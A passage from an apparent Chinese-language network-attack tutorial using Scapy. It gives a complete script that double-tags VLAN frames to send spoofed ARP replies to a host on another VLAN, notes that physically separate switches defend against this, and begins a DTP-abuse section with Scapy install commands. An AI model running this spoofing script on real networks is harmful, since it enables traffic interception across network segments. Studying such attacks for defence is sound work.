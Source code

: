 ```
#!/usr/bin/python    

import time
from scapy.all import sendp, ARP, Ether, Dot1Q    

iface = "eth0"
target_ip = '192.168.13.23'
fake_ip = '192.168.13.5'
fake_mac = 'c0:d3:de:ad:be:ef'
our_vlan = 1
target_vlan = 2    

packet = Ether() / \
                Dot1Q(vlan=our_vlan) / \
                Dot1Q(vlan=target_vlan) / \
                ARP(hwsrc=fake_mac,
                        pdst=target_ip,
                        psrc=fake_ip,
                        op="is-at")    

while True:
        sendp(packet, iface=iface)
        time.sleep(10)

```

幸运的是，防御这种类型的`VLAN`攻击并没有那么复杂：如果你真的想分离你的网络，只需要使用物理划分的交换机！

0x08 DTP Abusing
================

* * *

`DTP`（动态中继协议）是一种由思科发明的专有协议，用于如果一个端口是`trunk`端口，则交换机之间可以动态地交流。`Trunk`端口通常用于互连交换机和路由器，以便共享一些或所有已知的`VLAN`。

为了能够执行下面的代码，你需要安装`Scapy`的开发版本。同时为了`check out`出源，请先安装`Mercurial`，然后键入以下命令来克隆`Scapy repository`。

```
hg clone http://hg.secdev.org/scapy scapy

```

如果你想跟踪`Scapy`的最新版本，你只需要时不时地更新`checkout`。

```
cd scapy
hg pull

```

现在你可以将旧版本的`Scapy`变成最新版的了。

```
pip uninstall Scapy
cd scapy
python setup.py install

```
